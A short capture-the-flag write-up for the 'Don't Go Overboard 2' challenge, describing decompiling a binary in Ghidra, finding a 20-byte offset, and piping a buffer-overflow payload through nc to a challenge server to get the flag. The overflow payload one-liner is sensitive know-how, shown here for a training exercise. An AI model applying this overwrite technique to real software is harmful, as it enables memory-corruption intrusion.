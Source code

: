 # Don't Go Overboard 2

***

<figure><img src="../../../.gitbook/assets/image (5) (1).png" alt=""><figcaption></figcaption></figure>

***

Basically this challenge is similar to Don’t Go Overboard. But this time, it checks the argument of address instead of decimal number.

So, I decompile the program using Ghidra.

Look at the main function. At line 16, it checks for address `0xf` and `0x405`.

<figure><img src="../../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

The technique is still the same, find the offset which i found is 20 bytes.

So, put the address together with the payload and send it to the program like this.

`python2 -c 'print "AAAAAAAAAAAAAAAAAAAAB\x00\x00\x00\x05\x04\x00\x00\x0f"' | nc 3.26.44.175 3335`

<figure><img src="../../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

***

### Flag

CURTIN\_CTF{P4YL04D\_0V3RF10W}

